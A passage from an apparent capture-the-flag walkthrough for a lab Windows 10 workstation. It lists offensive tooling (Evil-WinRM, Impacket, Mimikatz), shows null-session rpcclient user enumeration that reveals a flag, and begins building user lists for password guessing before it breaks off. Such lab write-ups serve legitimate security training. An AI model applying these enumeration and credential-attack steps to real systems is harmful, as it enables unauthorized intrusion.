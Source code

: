# Windows 10 Workstation (DESKTOP-TEI5A1Q) CTF Flag Capture Guide
## Pokemon CTF v5 - Complete Flag Instructions

### Environment Setup
- **Target Workstation IP**: 192.168.1.124 (DESKTOP-TEI5A1Q)
- **Attacker Kali IP**: 192.168.1.7
- **Total Flags**: 27
- **Total Points**: 720

### Prerequisites
Before starting, ensure you have:
- Kali Linux with standard penetration testing tools
- Evil-WinRM installed (`gem install evil-winrm`)
- Impacket tools installed
- Mimikatz.exe ready for upload
- Python HTTP server for file transfers
- Git for cloning exploit repositories

---

## Phase 1: User Enumeration

### FLAG 001: User Full Name Field (10 points)
**Discovery Method**: RPC enumeration reveals flag in user's full name
```bash
# Connect via RPC with null session
rpcclient -U "" -N 192.168.1.124

# At the rpcclient prompt:
rpcclient $> enumdomusers
# Lists all domain users

rpcclient $> queryuser jsmith
# Look for the Full Name field:
# Full Name   :   John Smith - FLAG{MEW23686701}

rpcclient $> quit
```

---

## Phase 2: Password Discovery

### Discovering Valid Credentials
```bash
# Create user list
cat > workstation_users.txt << EOF
Administrator
jsmith
mjones
developer
helpdesk
tempuser
svc_backup
debuguser
localadmin
EOF

# Create password list
```